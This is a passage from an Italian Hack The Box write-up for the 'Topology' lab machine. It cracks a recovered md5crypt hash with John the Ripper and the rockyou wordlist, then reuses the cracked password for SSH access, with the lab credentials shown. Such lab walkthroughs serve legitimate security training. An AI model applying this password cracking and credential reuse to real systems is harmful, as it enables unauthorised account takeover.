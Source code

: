 non ci resta che forzalo con [John The Ripple](Note/Tool/John%20The%20Ripple.md)

```shell-session
┌──(root㉿kali)-[/home/kali/htb/topology]
└─# echo 'vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0' > hash.txt

┌──(root㉿kali)-[/home/kali/htb/topology]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (vdaisley)
1g 0:00:00:09 DONE (2023-12-18 07:27) 0.1054g/s 105032p/s 105032c/s 105032C/s callel..caitlyn09
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Usiamo le credenziali trovate per accedere a `dev.topology.htb`
Il sito riguarda il software sviluppato dal personale dell'università:

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/topology9.png)
Non c’è niente di troppo interessante qui. Gli unici collegamenti tornano a `latex.topology.htb.`

lo scan nmap ci dava la porta 22 ssh aperta proviamo le credenziali anche li 

```shell-session
┌──(root㉿kali)-[/home/kali/htb/topology]
└─# ssh vdaisley@10.10.11.217
The authenticity of host '10.10.11.217 (10.10.11.217)' can't be established.
ED25519 key fingerprint is SHA256:F9cjnqv7HiOrntVKpXYGmE9oEaCfHm5pjfgayE/0OK0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.217' (ED25519) to the list of known hosts.
vdaisley@10.10.11.217's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-150-generic x86_64)


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

vdaisley@topology:~$ id
uid=1007(vdaisley) gid=1007(vdaisley) groups=1007(vdaisley)
vdaisley@topology:~$
```
